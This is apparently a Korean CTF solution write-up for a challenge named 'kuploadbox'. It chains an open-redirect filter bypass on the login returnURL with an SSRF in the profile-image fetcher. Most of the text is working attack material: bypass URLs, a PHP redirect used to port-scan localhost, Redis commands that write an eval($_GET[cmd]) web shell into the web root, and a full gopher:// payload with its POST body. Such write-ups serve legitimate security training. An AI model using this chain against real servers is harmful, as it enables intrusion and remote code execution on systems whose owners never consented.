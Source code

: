 # solution

여기에는 취약점이 2개가 있는데 아래와 같다

1. open redirect 
2. SSRF

확인해야 할것 robots.txt

/cache directory 

1. open redirect는 로그인 할때 생김

웹 버그헌팅을 좀 하면 알겠지만 우선 다수의 사이트들에서 POST 파라메터를 GET으로 보내도 정상작동을 하는데 이걸 이용해서 Open redirect 취약점을 해야한다 하지만 필터링이 걸려있어 우회를 해줘야된다

1. http://adm1nkyj-kuploadbox.com/index.php?ad=member&mi=login&id=adm1nkyj3&pw=1234&returnURL=http://adm1nkyj.kr&send=login // fail

2. http://adm1nkyj-kuploadbox.com/index.php?ad=member&mi=login&id=adm1nkyj3&pw=1234&returnURL=http://adm1nkyj.kr%23@adm1nkyj-kuploadbox.com&send=login // fail

3. http://adm1nkyj-kuploadbox.com/index.php?ad=member&mi=login&id=adm1nkyj3&pw=1234&returnURL=http://test.adm1nkyj-kuploadbox.com&send=login // bypass

4. http://adm1nkyj-kuploadbox.com/index.php?ad=member&mi=login&id=adm1nkyj3&pw=1234&returnURL=http://adm1nkyj-kuploadbox.com.adm1nkyj.kr&send=login // fail

5. http://adm1nkyj-kuploadbox.com/index.php?ad=member&mi=login&id=adm1nkyj3&pw=1234&returnURL=http://exploit-adm1nkyj-kuploadbox.com&send=login // bypass 

open redirect 취약점을 찾았으면 이제 SSRF를 시도해보자

2. SSRF 프로필 변경 할때 생김.

프로필 변경 할때 보내는 POST body

```
------WebKitFormBoundaryyx4ywOKfeaO8nCA7
Content-Disposition: form-data; name="pw"

1234
------WebKitFormBoundaryyx4ywOKfeaO8nCA7
Content-Disposition: form-data; name="nick"

testidcc
------WebKitFormBoundaryyx4ywOKfeaO8nCA7
Content-Disposition: form-data; name="profile"

http://files.adm1nkyj-kuploadbox.com/index.php
------WebKitFormBoundaryyx4ywOKfeaO8nCA7--

```

1. http://files.adm1nkyj-kuploadbox.com/index.php // 404 not found

2. http://aaaaaa-adm1nkyj-kuploadbox.com/index.php // check image url

3. http://testtest#@adm1nkyj-kuploadbox.com/index.php // check image url

4. http://adm1nkyj-kuploadbox.com.aaaaaaa/index.php // check image url

5. http://aaaaa-adm1nkyj-kuploadbox.com/index.php // check image url

6. http://www.adm1nkyj-kuploadbox.com/index.php // error! check file type

여기는 이미지 URL을 넣고 올바른 URL이라면 CURL로 긁어온 다음 이미지인지 아닌지 체크후 프로필을 변경 하는 구조이며 일반적인 URL로는 공격할수가 없지만 아까 킵해둔 Open Redirect 취약점으로 바이패스가 가능하다.

ex) http://www.adm1nkyj-kuploadbox.com/index.php?ad=member&mi=login&id=testid3&pw=1234&returnURL=http://exploit-adm1nkyj-kuploadbox.com/index.php&send=login

Open Redirect와 SSRF 취약점을 찾았으면 이제 내부 포트 스캐닝을 해보자 

ex)

exploit-adm1nkyj-kuploadbox.com/port.php source

```php
<?php
	header("Location: http://127.0.0.1:[port]");
?>
```

포트 스캐닝을 하다보면 6379 포트가 열려있는걸 알수가 있는데 6379포트를 구글에 검색 하게 되면 6379를 검색하게 되면 redis 기본 포트 란걸 알수 있게 된다 (https://www.google.co.kr/?gfe_rd=cr&ei=Av5YWbu7Iano8AfQ05rgBA&gws_rd=ssl#q=6379+port)

그후 redis를 이용해 cache폴더 웹쉘을 올리면 문제를 풀수있다.

redis command

```
FLUSHALL
eval 'redis.call("set", "<?php eval($_GET[cmd]); ?>", "test"); redis.call("config", "set", "dir", "/var/www/html/cache/"); redis.call("config", "set", "dbfilename", "exploit.php");' 0
save
quit

```

최종 exploit

exploit-adm1nkyj-kuploadbox.com/mytask_full_exploit_1.php

```php
<?php
        header("Location: gopher://127.0.0.1:6379/_FLUSHALL%0d%0aeval%20%27redis.call%28%22set%22%2C%20%22%3C%3Fphp%20eval%28%24_GET%5Bcmd%5D%29%3B%20%3F%3E%22%2C%20%22test%22%29%3B%20redis.call%28%22config%22%2C%20%22set%22%2C%20%22dir%22%2C%20%22/var/www/html/cache/%22%29%3B%20redis.call%28%22config%22%2C%20%22set%22%2C%20%22dbfilename%22%2C%20%22exploit.php%22%29%3B%27%200%0d%0asave%0d%0aquit%0d%0a");
?>
```

exploit POST body

```
------WebKitFormBoundaryyx4ywOKfeaO8nCA7
Content-Disposition: form-data; name="pw"

1234
------WebKitFormBoundaryyx4ywOKfeaO8nCA7
Content-Disposition: form-data; name="nick"

testidcc
------WebKitFormBoundaryyx4ywOKfeaO8nCA7
Content-Disposition: form-data; name="profile"

http://www.adm1nkyj-kuploadbox.com/index.php?ad=member&mi=login&id=testid3&pw=1234&returnURL=http://exploit-adm1nkyj-kuploadbox.com/mytask_full_exploit_1.php&send=login
------WebKitFormBoundaryyx4ywOKfeaO8nCA7--
```

하면 cache/exploit.php로 웹쉘이 올라간다.